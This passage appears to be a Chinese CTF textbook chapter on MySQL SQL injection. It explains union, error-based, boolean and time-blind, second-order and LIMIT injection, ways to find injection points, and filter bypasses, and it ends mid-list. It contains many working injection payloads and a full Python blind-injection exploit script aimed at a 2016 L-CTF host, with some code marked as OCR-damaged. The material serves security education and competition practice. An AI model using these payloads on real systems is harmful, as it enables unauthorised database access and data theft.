









> [!abstract] 本章摘要
> 本章系统讲解基于 MySQL 的 SQL 注入：注入成因与分类、可回显的联合查询注入、报错注入（updatexml/floor/exp）、Bool 盲注与时间盲注、二次注入、limit 之后的注入、注入点位置与发现方法、四大类绕过（关键字/空格/单引号/相等过滤），最后介绍 SQL 读写文件实现 getshell。

## 章节导航

上一篇：[第1章 常用工具安装及使用](第1章 常用工具安装及使用.md)
下一篇：第3章 跨站脚本攻击
回到目录：[00-目录](00-目录.md)

## 一、什么是SQL注入

SQL注入在国内CTF比赛中的地位特别高，基本上是每次比赛的必出题。有时候还不只一道题，一道题也不只有一个数据库，可能是与SSRF、XSS等漏洞配合出题等，这时候就需要我们根据不同的环境随机应变。在这里，我们主要介绍基于MySQL的注入。

在本章中，我们假设你已经有一定的SQL基础，熟悉常见的增（insert）删（delete）改（update）查（select）语句，了解常见的查询（比如联合查询、连接查询等），知道基本的数据库的权限控制，并了解PHP的基本语法和常见的参数传递方法（如GET、POST等）。

首先简单介绍一下SQL注入的成因。==开发人员在开发过程中，直接将URL中的参数、HTTP Body中的Post参数或其他外来的用户输入（如Cookies，UserAgent等）与SQL语句进行拼接，造成待执行的SQL语句可控，从而使我们可以执行任意SQL语句。==

了解了SQL注入的成因之后，我们再来简要介绍下常见SQL注入的分类，具体如下。

1）可回显的注入：

可以联合查询的注入。

- 报错注入。
- 通过注入进行DNS请求，从而达到可回显的目的。

2）不可回显的注入：

- Bool盲注。
- 时间盲注。

3）二次注入：

通常作为一种业务逻辑较为复杂的题目出现，一般需要自己编写脚本以实现自动化注入。

SQL注入在CTF比赛中十分常见，涉及各种数据库。一般的CTF比赛中，出题人都会变相地增加一层WAF（比如，对关键字进行过滤等），然后只留下一个思路的解题路径，这时候我们需要快速找到并绕过这个点，然后得到flag。

> [!note]+ 定义：SQL注入
> 开发者把用户输入直接与 SQL 语句拼接，导致待执行的 SQL 语句可控，从而可以执行任意 SQL 语句。

> [!tip]- 本节要点
> 1. 分类：可回显（联合查询/报错/DNS 外带）与不可回显（Bool 盲注/时间盲注），另有业务逻辑型的二次注入；
> 2. CTF 中的注入题通常会加一层 WAF（关键字过滤等），核心考点是快速找到并绕过过滤点。

## 二、可以联合查询的SQL注入

在可以联合查询的题目中，一般会将数据库查询的数据回显到页面中，比如下面这个例子（测试样例代码时需要关闭GPC）：

```php
<?php
  ...
$id = $_GET['id');
$getid = "SELECT Id FROM users WHERE user_id = '$id'";
$result = mysql_query($getid) or
die('<pre>'.mysql_error().'</pre>');
$num = mysql_numrows($result);
...
```

[OCR存疑：上述代码中 `$_GET['id');` 疑为 `$_GET['id'];`。]

我们注意看上方SQL语句中的$id变量，该变量会将GET获取到的参数直接拼接到SQL语句中，假如此时传入如下参数：

```text
?id=-1'union+select+1+--+
```

拼接后SQL语句就变成了：

```sql
SELECT Id FROM users WHERE user_id='-1'union select 1 --
```

闭合前面的单引号，注释掉后面的单引号，中间写上需要的Payload就可以了。或许你会注意到，传递参数的时候用到了"+"号，而查询语句中并没有出现这个加号，这是因为服务器在处理用户输入的时候已经自动将加号转义为空格符了。

联合查询是最简单易学，也是最容易理解和上手的注入方法，所以在题目中出现可以使用联合查询进行回显的注入时，一般需要绕过某些特定字符或者是特定单词（比如，空格或者select、and、or等字符串）。

> [!tip]- 本节要点
> 1. 闭合前单引号 + 注释后单引号 + 中间写 Payload，是联合查询注入的基本套路；
> 2. URL 中的 `+` 会被服务器转义为空格；
> 3. 可回显题目通常需要绕过空格或 select/and/or 等关键字。

## 三、报错注入

这里主要介绍3种MySQL数据库报错注入的方法，分别是updatexml、floor和exp。

### 1. updatexml

updatexml的报错原理从本质上来说就是函数的报错，如图2-1所示。

<div style="text-align: center;"></div>

<div style="text-align: center;">图2-1 updatexml 报错回显示例</div>

这里还是使用前面的例子，举出一个爆破数据库版本的样例

Payload:

```text
?id=1'+updatexml(1,concat(0x7e, (SELECT
    version(),0x7e),1)%23
```

其他功能的Payload可以参照下面floor的使用方法来修改。

### 2. floor

简单来说，floor报错的原理是rand和order by或group by的冲突。在MySQL文档中的原文如下：

RAND() in a WHERE clause is re-evaluated every time the WHERE is executed. Use of a column with RAND() values in an ORDER BY or GROUP BY clause may yield unexpected results because for either clause a RAND() expression can be evaluated multiple times for the same row, each time returning a different result. (http://dev.mysql.com/doc/refman/5.7/en/mathematical-functions.html#function_rand)

理解了原理之后，接下来我们来说一下应用的方法，如下。

爆破数据库版本信息：

```text
?id=1'+and(select 1 from(select count(*),concat((select
(select (select concaten(0x7e,version(),0x7e)) from
information_schema.tables limit 0,1),floor(rand(0)*2))x
from information_schema.tables group by x)a)%23
```

爆破当前用户：

```text
?id=1'+and(select 1 from(select count(*),concat((select
(select (select concaten(0x7e,user(),0x7e)) from
information_schema.tables limit 0,1),floor(rand(0)*2))x
from information_schema.tables group by x)a)%23
```

爆破当前使用的数据库：

```text
?id=1'+and(select 1 from(select count(*),concat((select
(select (select concaten(0x7e,database(),0x7e)) from
information_schema.tables limit 0,1),floor(rand(0)*2))x
from information_schema.tables group by x)a)%23
```

爆破指定表的字段（下面以表名为emails举例说明）：

```text
?id=1' +and(select 1 from(select count(*),concat((select
(select (SELECT distinct concaten(0x7e,column_name,0x7e)
FROM information_schema.columns where
table_name=0x656d61696c73 LIMIT 0,1)) from
information_schema.tables limit 0,1),floor(rand(0)*2))x
from information_schema.tables group by x)a)%23
```

注意，这里我们采用的是十六进制编码后的表名。如果想采用非十六进制编码的表名则需要添加引号，但是这时候有可能会出现单引号导致的报错。

以上的Payload可以在sqli-labs的level1中复现，如图2-2所示。

<div style="text-align: center;"></div>

<div style="text-align: center;">图2-2 floor报错回显示例</div>

在这里，我们只演示爆破数据库版本的Payload，关于其他Payload，读者可自行研究并复现。

### 3. exp

接下来是exp函数报错，exp()报错的本质原因是溢出报错。我们可以在MySQL中进行如图2-3所示的操作。

<div style="text-align: center;"></div>

<div style="text-align: center;">图2-3 exp报错回显示例</div>

同样使用前面的例子，Payload为：

```text
?id=1' and exp(~ (select * from (select user())x))%23
```

> [!tip]- 本节要点
> 1. updatexml：函数自身报错，concat 拼接 0x7e 与目标数据；
> 2. floor：rand 与 order by/group by 冲突触发报错，同一套模板换 version()/user()/database() 即可爆破不同目标；
> 3. exp：溢出报错；
> 4. 表名用十六进制编码可避免引号报错（如 0x656d61696c73 = emails）。

## 四、Bool盲注

Bool盲注通常是由于开发者将报错信息屏蔽而导致的，但是网页中真和假有着不同的回显，比如为真时返回access，为假时返回false；或者为真时返回正常页面，为假时跳转到错误页面等。

Bool盲注中通常会配套使用一些判断真假的语句来进行判定。常用的发现Bool盲注的方法是在输入点后面添加and 1=1和and 1=2（该Payload应在怀疑是整型注入的情况下使用）。

Bool盲注的原理是如果题目后端拼接了SQL语句，and 1=1为真时不会影响执行结果，但是and 1=2为假，页面则可能会没有正常的回显。

有时候我们可能会遇到将1=1过滤掉的SQL注入点，这时候我们可以通过修改关键字来绕过过滤，比如将关键字修改为不常见的数值（如1352=1352等）。

在字符串型注入的时候我们还需要绕过单引号，将Payload修改为如下格式’and’1’=’1和’or’1’=’2来闭合单引号。

在Bool盲注中，我们经常使用的函数有以下几种分类，具体如表2-1～表2-3所示。

#### (1) 截取函数

<div style="text-align: center;">表2-1 截取函数及其说明</div>

<table border=1 style='margin: auto; word-wrap: break-word;'><tr><td style='text-align: center; word-wrap: break-word;'>函数名</td><td style='text-align: center; word-wrap: break-word;'>功能及使用方法</td></tr><tr><td style='text-align: center; word-wrap: break-word;'>substr()</td><td style='text-align: center; word-wrap: break-word;'>substr 函数是字符串截取函数，在盲注中我们一般逐位获取数据，这时候就需要使用 substr 函数按位截取。使用方法：substr(str,start,length)。这里的 str 为被截取的字符串，start 为开始截取的位置，length 为截取的长度。在盲注时，我们一般只截取一位，如 substr(user(), 1,1)，这样可以从 user 函数返回数据的第一位开始的偏移位置截取一位，之后我们只要修改位置参数即可获取其他的数据</td></tr><tr><td style='text-align: center; word-wrap: break-word;'>left()</td><td style='text-align: center; word-wrap: break-word;'>left 函数是左截取函数，left 的用法为 left(str,length)。这里的 str 是被截取的字符串，length 为被截取的长度。在盲注中可以使用 left(user(), 1) 来左截取一位字符。但是，如果是 left(user(), 2)，则会将 user() 的前两位都截取出来。这样的话，我们需要在匹配输出的字符串之前增加前缀，把之前几次的结果添加到这次的结果之前。使用样例如下：假设 user() 函数返回的字符串是 "admin"，那么 select a from b where left(a,1) = &#x27;a&#x27; 会返回真，在探测第二位的时候，需要把第一位添加到当前探测位之前，比如：select a from b where left(a,2) = &#x27;ad&#x27;以此类推，直到读取到全部内容为止</td></tr><tr><td style='text-align: center; word-wrap: break-word;'>right()</td><td style='text-align: center; word-wrap: break-word;'>right 函数是右截取函数。使用方法与 left 函数类似，可以参考 left 函数的用法</td></tr></table>

#### (2) 转换函数

<div style="text-align: center;">表2-2 转换函数及其说明</div>

<table border=1 style='margin: auto; word-wrap: break-word;'><tr><td style='text-align: center; word-wrap: break-word;'>函数名</td><td style='text-align: center; word-wrap: break-word;'>功能及使用方法</td></tr><tr><td style='text-align: center; word-wrap: break-word;'>ascii()</td><td style='text-align: center; word-wrap: break-word;'>ascii 函数的作用是将字符串转换为 ASCII 码，这样我们就可以避免在 Payload 中出现单引号。使用方法为 ascii(char)，这里的 char 为一个字符，在盲注中一般为单个字母。如果 char 为一串字符串，则返回结果将是第一个字母的 ASCII 码。我们在使用中通常与 substr 函数相结合，如 ascii(substr(user(), 1, 1))，这样可以获得 user() 的第一位字符的 ASCII 码</td></tr><tr><td style='text-align: center; word-wrap: break-word;'>hex()</td><td style='text-align: center; word-wrap: break-word;'>Hex 函数可以将字符串的值转换为十六进制的值。在 ascii 函数被禁止时，或者是需要将二进制数据写入文件时可以使用该函数，使用方法类似于 ascii 函数</td></tr></table>

#### (3) 比较函数

<div style="text-align: center;">表2-3 比较函数及其说明</div>

<table border=1 style='margin: auto; word-wrap: break-word;'><tr><td style='text-align: center; word-wrap: break-word;'>函数名</td><td style='text-align: center; word-wrap: break-word;'>功能及使用方法</td></tr><tr><td style='text-align: center; word-wrap: break-word;'>if()</td><td style='text-align: center; word-wrap: break-word;'>if函数是盲注中经常使用的函数，if函数的作用与1=1和1=2的原理类似。如果我们要盲注的对象为假，则可以通过if的返回结果对页面进行控制。使用方法为if(cond,Ture_result, False_result) 其中，cond为判断条件，Ture_result为真时的返回结果，False_result为假时的返回结果。使用样例如下： ?id=1 and 1=if(ascii(substr(user(),1,1))=97,1,2) 如果user的第一位是‘a’则将返回1，否则就返回2。然而，如果返回的是2，则会使and后的条件不成立，导致返回错误页面。这时我们可以根据页面的长度进行判定，从而达到盲注的效果</td></tr></table>

==注意：在盲注的题目及真实的渗透测试中，有时候使用Sqlmap可能会存在误报。==原因在于在一些数据返回页面及接口返回数据时可能会存在返回的是随机字符串（如，时间戳或防止CSRF的Token等）导致页面的长度发生变化的情况，这时候我们的工具及自动化检测脚本会出现误报。我们需要冷静地对Payload和返回结果进行分析。

> [!tip]- 本节要点
> 1. 发现方法：`and 1=1` / `and 1=2`（整型），字符串型用 `'and'1'='1` / `'or'1'='2` 闭合引号；
> 2. 三件套：截取（substr/left/right）+ 转换（ascii/hex）+ 比较（if），逐位爆破；
> 3. left 爆破要携带前缀：前次结果拼到本次条件前；
> 4. 页面长度可能因时间戳/Token 等随机串变化，Sqlmap 会误报，要人工分析。

## 五、时间盲注

时间盲注出现的本质原因也是由于服务器端拼接了SQL语句，但是正确和错误存在同样的回显。错误信息被过滤，不过，可以通过页面响应时间进行按位判断数据。由于时间盲注中的函数是在数据库中执行的，因此在CTF比赛中关于时间盲注的题目比较少，原因在于sleep函数或者benchmark函数的过多执行会让服务器负载过高，再加上CTF里面的一些"搅屎棍"的参与，会让题目挂掉。不过，有时候我们还是会在CTF中遇到这些题目，这里简单说一下注入的方法。

时间盲注类似于Bool 盲注，只不过是在验证阶段有所不同。Bool 盲注是根据页面回显的不同来判断的，而时间盲注是根据页面响应时间来判断结果的。一般来说，延迟的时间可以根据客户端与服务器端之间响应的时间来进行选择，选择一个合适的时间即可。一般来说，时间盲注常用的函数有sleep()和benchmark()两个，具体说明如表2-4所示。

<div style="text-align: center;">表2-4 可用来延时的函数</div>

<table border=1 style='margin: auto; word-wrap: break-word;'><tr><td style='text-align: center; word-wrap: break-word;'>函数名</td><td style='text-align: center; word-wrap: break-word;'>功能及使用方法</td></tr><tr><td style='text-align: center; word-wrap: break-word;'>sleep()</td><td style='text-align: center; word-wrap: break-word;'>sleep是睡眠函数，可以使查询数据时间显数据的响应时间加长。使用方法如sleep(N)，这里的N为睡眠的时间。使用时可以配合if进行使用。如：if(ascii(substr(user(), 1, 1))=114, sleep(5), 2)这样的话，如果user的第一位是‘r’，则页面返回将延迟5秒。这里需要注意的是，这5秒是在服务器端的数据库中延迟的，实际情况可能会由于网络环境等因素延迟更长时间</td></tr><tr><td style='text-align: center; word-wrap: break-word;'>benchmark()</td><td style='text-align: center; word-wrap: break-word;'>benchmark函数原本是用来重复执行某个语句的函数，我们可以用这个函数来测试数据库的读写性能等。使用方法如下：benchmark(N, expression)其中，N为执行的次数，expression为表达式。如果需要进行自注，我们通常需要进行消耗时间和性能的计算，比如哈希计算函数MD5()，将MD5函数重复执行数万次则可以达到延迟的效果，而具体情况需要根据不同比赛的服务器性能及网络情况来决定</td></tr></table>

> [!tip]- 本节要点
> 1. 与 Bool 盲注的差别只在判定方式：按页面响应时间而不是回显差异；
> 2. sleep(N) 配 if 使用；benchmark(N, expression) 用重复执行 MD5() 等达到延迟；
> 3. 延迟发生在服务器端数据库，实际感知时间会因网络更长。

## 六、二次注入

二次注入的起因是==数据在第一次入库的时候进行了一些过滤及转义，当这条数据从数据库中取出来在SQL语句中进行拼接，而在这次拼接中没有进行过滤时，我们就能执行构造好的SQL语句了==。

由于二次注入的业务逻辑较为复杂，在比赛中一般很难发现，所以出题人一般会将源码放出来，或者提示本题有二次注入。

在二次注入的题目中，一般不会是单纯的二次注入，通常还会与报错注入或Bool盲注结合出题。比如，在注册页面输入的用户名在登录后才有盲注的回显，这时候我们需要自己编写脚本模拟注册及登录。

下面列举一个二次注入中包含盲注的例子（2016年西电信安协会的l-ctf），简单描述下当时的题目。存在用户的登录与注册页面，登录后可以修改用户的头像，判断注入的点也就是这个头像是否有显示。如果注册时用户名构造的Payload为真，则可以在页面收到回显的头像的地址，反之则没有。因为在测试时发现头像的链接很长，所以我们用页面返回长度来确定盲注结果，下面是当时写的漏洞利用代码，我们在代码的注释中解释了每条语句的原理：

```python
#!/usr/bin/env python
# coding: UTF-8 ("げ")
__author__ = 'T1m0n'

import requests

def getdata(pos, payload_chr):
    '''
    :param pos: 盲注点
    :param payload_chr: 字符串
    :return: 如果pos位置是payload_chr，则返回payload_chr，反之则返回空
    ''  # 笔记注：原文此处 docstring 破损，疑为 ''' 
    # 当时网络环境比较差，经常出现502的情况，当返回502或者其他信息时，使用try再次执行本函数
    try:
        # 用户名 注意看后面的payload，这里的payload的意义为返回第一个数据库，并按位截取
        user =
    'zaaa\/' ** /and /** /ascii (substr ((SELECT/** / (SCHEMA_NAME) / *
    */FROM / **/information_schema.SCHEMATA/** / limit / ** /0,1), %d
,1)) = %d / **/and / **/\'1\' = \'1' % (pos, ord(payload_chr))
        # 密码，只在登录时起作用
        passwd = 'aaaaaaa'
        # 注册机登录的url
        url_login = 'http://web.l-
ctf.com:55533/check.php'
        # 注册时post的数据
        resign_data = {
            'user': user,
            'pass': passwd,
            'vrtify': '1',
            'typer': '0',
            'register': 'E6%B3%A8%E5%86%8C',
        }
        # 负责发送注册请求
        r0 = requests.post(url_login, resign_data)
        r0.close()
        # 登录刚才注册的账号
        login_data = {
            'user': user,
            'pass': passwd,
            'vrtify': '1',
            'typer': '0',
            'login': 'E7%99%BB%E9%99%86',
        }
    }  # 笔记注：原文此处代码结构有 OCR 破损，多余的大括号按原样保留
}

r1 = requests.post(url_login, login_data)
# 截取返回头中的cookie，方便我们进入下一步的登录用户中心
cookie = r1.headers['Set-Cookie'].split('';')[0]
r1.close()
# 用户中心登录
url_center = 'http://web.l-
ctf.com:55533/ucenter.php'
headers = {'cookie': cookie}
# 登录用户中心
r2 = requests.get(url_center, headers=headers)
res = r2.content
# 如果返回的长度大于700，则证明这个位置的字符串是正确的，
并返回这个字符串；如果小于700，则返回空
if len(res) > 700:
    print payload_chr, ord(payload_chr)
    return payload_chr
else:
    print '.',
    return ''
except:
    getdata(pos, payload_chr)
if __name__ == __main__':  # 笔记注：原文如此，疑为 if __name__ == '__main__':
    payloads =
    'abcdefghijklmnopqrstuvwxyz1234567890@_{{}},'
    res = ''
    for pos in range(1, 20):
        for payload in payloads:
            res += getdata(pos, payload)
    print res
# 附上当时的注入结果
# user--lctf
# database--web_200
# table -- user
# column -- d,admin,pass
```

当然，这只是获取flag过程中的一部分，但也是关键的一部分。

在遇到类似思路比较复杂的二次注入题目的时候，我们更要冷静地分析，不断地尝试，这样才能挖到题目的考点，从而达到获取flag的目的。

> [!tip]- 本节要点
> 1. 本质：首次入库被过滤转义，取出拼接时未过滤 → 执行构造语句；
> 2. 常与报错注入/Bool 盲注结合，需要脚本模拟"注册→登录→触发"全流程；
> 3. 页面返回长度也可作为盲注判定依据（如 >700 判真）。

## 七、limit之后的注入

研究发现，在MySQL版本号大于5.0.0且小于5.6.6的时候，在如下位置中可以进行注入：

```sql
SELECT field FROM table WHERE id > 0 ORDER BY id LIMIT {injection_point}
```

也可以使用如下的Payload进行注入：

```sql
SELECT field FROM user WHERE id >0 ORDER BY id LIMIT 1,1 procedure
analyse(extractvalue(rand(), concat(0x3a,version())),1);
```

> [!note]- 什么是 limit 之后的注入？
> 在 MySQL 5.0.0~5.6.6 版本中，LIMIT 子句后可直接接 procedure analyse，配合 extractvalue 等报错函数实现注入。

## 八、注入点的位置及发现

前面我们介绍了多种注入方式及利用方式，下面继续介绍注入点的位置及注入点的发现方法。

### 1. 常见的注入点位置

在CTF中，我们遇到的不一定是注入点是表单中username字段的情况，有时候注入点会隐藏在不同的地方，下面我们就来介绍几个常见的注入点的位置。

#### (1) GET参数中的注入

GET中的注入点一般最容易发现，因为我们可以在地址栏获得URL和参数等，可以用Sqlmap或者手工验证是否存在注入。

#### (2) POST中的注入

POST中的注入点一般需要我们通过抓包操作来发现，如使用Burp 或者浏览器插件Hackbar来发送POST包。同样，也可以使用Sqlmap或者手工验证。

#### (3) User-Agent中的注入

在希望发现User-Agent中的注入时，笔者在这里推荐大家使用Burp的Repeater模块，或者Sqlmap。将Sqlmap的参数设置为level=3，这样Sqlmap会自动检测User-Agent中是否存在注入。

#### (4) Cookies中的注入

想要发现Cookies中的注入，笔者同样推荐大家使用Burp的Repeater模块。当然，在Sqlmap中，我们也可以设置参数为level=2，这样Sqlmap就会自动检测Cookies中是否存在注入了。

### 2. 判断注入点是否存在

接下来就要确定注入点的位置。在判断输入点是否存在注入时，可以先假设原程序执行的SQL语句，如：

```sql
SELECT UserName FROM User WHERE id = '$id'; // 参数为字符串
```

或

```sql
SELECT UserName FROM User WHERE id = $id; // 参数为数字
```

然后通过以下几种方法进行判断：

#### (1) 插入单引号

插入单引号是我们最常使用的检测方法，原理在于未闭合的单引号会引起SQL语句单引号未闭合的错误。

#### (2) 数字型判断

通过and 1=1（数字型）和闭合单引号测试语句'and'1'='1（字符串型）进行判断，这里采用Payload'1'='1的目的是为了闭合原语句后方的单引号。

#### (3) 通过数字的加减进行判断

比如，我们在遇到的题目中抓到了链接http://example.com/?id=2，就可以进行如下的尝试http://example.com/?id=3-1，如果结果与http://example.com/?id=2相同，则证明id这个输入点可能存在SQL注入漏洞。

> [!tip]- 本节要点
> 1. 注入点四个常见位置：GET、POST、User-Agent、Cookies；
> 2. Sqlmap 检测：level=3 检 User-Agent，level=2 检 Cookies；
> 3. 判断存在性三招：插单引号看报错、and 1=1/1=2、数字加减（?id=3-1 与 ?id=2 相同则可疑）。

## 九、绕过

在CTF中，关于SQL注入的题目一般都会涉及绕过。所以，掌握花式的绕过技术是必不可少的。我们需要熟悉数据库的各种特性，并利用开阔的思维来对SQL注入的防护措施进行绕过操作。

SQL注入的题目中一般都有绕过这样的类型，常见的绕过方式有以下几个分类。

### 1. 过滤关键字

即过滤如select、or、from等的关键字。有些题目在过滤时没有进行递归过滤，而且刚好将关键字替换为空。这时候，我们可以使用穿插关键字的方法进行绕过操作，如：

<div style="text-align: center;"></div>

也可以通过大小写转换来进行绕过，如：

<div style="text-align: center;"></div>

有时候，过滤函数是通过十六进制进行过滤的。我们可以对关键字的个别字母进行替换，如：

[OCR存疑：原文此处"如："后未接示例内容，疑为图片缺失。]

有时还可以通过双重URL编码进行绕过操作，如：

```text
form
or
union
%25%37%35%25%36%39%25%36%65%25%36%66%25%36%66%25%37%32%25%36%64
%25%36%36%25%36%66%25%37%32
%25%36%66%25%37%32
...
```

在CTF题目中，我们通常需要根据一些提示信息及题目的变化来选择绕过方法。

### 2. 过滤空格

在一些题目中，我们发现出题人并没有对关键字进行过滤，反而对空格进行了过滤，这时候就需要用到下面这几种绕过方法。

1）通过注释绕过，一般的注释符有如下几个：

```text
--
·//
·/**/
· ;%00
```

这时候，我们就可以通过这些注释符来绕过空格符，比如：

```sql
select/**/username/**/from/**/user
```

2）通过URL编码绕过，我们知道空格的编码是%20，所以可以通过二次URL编码进行绕过：

```text
%20 -- %2520
```

3）通过空白字符绕过，下面列举了数据库中一些常见的可以用来绕过空格过滤的空白字符（十六进制）：

